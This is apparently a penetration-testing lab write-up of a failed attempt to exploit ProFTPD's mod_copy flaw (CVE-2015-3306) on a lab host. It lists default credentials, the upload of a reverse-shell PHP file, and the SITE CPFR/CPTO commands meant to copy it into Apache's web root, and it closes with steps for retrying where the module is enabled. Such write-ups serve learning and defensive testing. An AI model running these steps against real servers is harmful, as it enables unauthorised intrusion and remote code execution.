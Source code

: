 # ProFTPD mod_copy Exploit Attempt (CVE-2015-3306)

## Target Details

- **Service**: ProFTPD 1.3.1
- **Port**: 2121
- **Authentication**: Successful using `msfadmin:msfadmin`
- **Exploit Type**: Arbitrary File Copy via `mod_copy` module

## Objective

Leverage the vulnerable `mod_copy` module to move a malicious `shell.php` file from the FTP upload directory into Apache's web root (`/var/www/html/`) and trigger a reverse shell.

---

## Steps Taken

1. **Connected to ProFTPD**
   ```bash
   ftp 192.168.6.3 2121

2. Authenticated successfully using:
    Username: msfadmin
    Password: msfadmin


3. Uploaded reverse shell:
    put shell.php

4. Attempted to execute:
    quote SITE CPFR /home/msfadmin/shell.php
    quote SITE CPTO /var/www/html/shell.php

5. Resulted in:
    500 'SITE CPFR' not understood

6. Ran quote HELP to confirm module support. Output:
    No SITE CPFR or CPTO listed. `mod_copy` is not enabled.

# Outcome

Exploit failed due to mod_copy module not being present or enabled on this ProFTPD instance. The necessary commands (SITE CPFR, SITE CPTO) were not available, blocking the core mechanism of the attack.

# Lessons learned

Even vulnerable versions may not have exploitable modules compiled or enabled.

Always validate server features (quote HELP) before attempting feature-specific exploits.

Upload capability without file movement limits post-exploitation.

# Future Notes

If the target ProFTPD build supports mod_copy, the exploit remains viable:

- Upload payload to writable path

- Copy to /var/www/html/ using SITE CPFR/CPTO

- Trigger via browser
